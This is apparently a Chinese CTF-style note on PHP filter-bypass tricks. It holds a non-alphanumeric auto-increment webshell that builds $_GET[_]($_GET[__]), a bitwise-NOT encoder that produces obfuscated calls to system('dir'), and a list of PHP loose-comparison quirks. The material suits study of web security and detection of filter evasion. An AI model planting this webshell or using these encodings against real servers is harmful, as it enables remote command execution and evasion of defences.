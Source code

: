 自增：

```php
<?php
$_=[].'';//Array
$_=$_[''=='$'];//A
$_++;//B
$_++;//C
$_++;//D
$_++;//E
$__=$_;//E
$_++;//F
$_++;//G
$___=$_;//G
$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;$_++;//T
$_=$___.$__.$_;//GET
//var_dump($_);
$_='_'.$_;//_GET
var_dump($$_[_]($$_[__]));
//$_GET[_]($_GET[__])
```

取反：

```php
<?php
$ans1='system';//函数名
$ans2='dir';//命令
$data1=('~'.urlencode(~$ans1));//通过两次取反运算得到system
$data2=('~'.urlencode(~$ans2));//通过两次取反运算得到dir
echo ('('.$data1.')'.'('.$data2.')'.';');
```

php弱比较：

```
'' == 0 == false
'123' == 123
'abc' == 0
'123a' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1
```
